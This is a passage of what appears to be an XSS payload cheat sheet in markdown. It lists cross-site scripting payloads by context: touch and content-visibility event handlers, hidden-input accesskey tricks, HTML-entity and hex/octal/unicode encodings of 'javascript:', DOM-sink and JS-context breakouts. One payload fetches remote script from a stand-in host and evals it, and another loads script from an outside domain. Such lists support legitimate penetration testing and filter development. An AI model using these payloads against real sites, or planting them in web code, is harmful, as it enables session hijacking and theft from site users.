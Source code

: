 ```javascript
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in Hidden Input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

in newer browsers : firefox-130/chrome-108

```javascript
<input type="hidden" oncontentvisibilityautostatechange="alert(1)"  style="content-visibility:auto" >
```

### XSS in Uppercase Output

```javascript
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### DOM Based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

```javascript
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS in Wrappers for URI

### Wrapper javascript

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
```
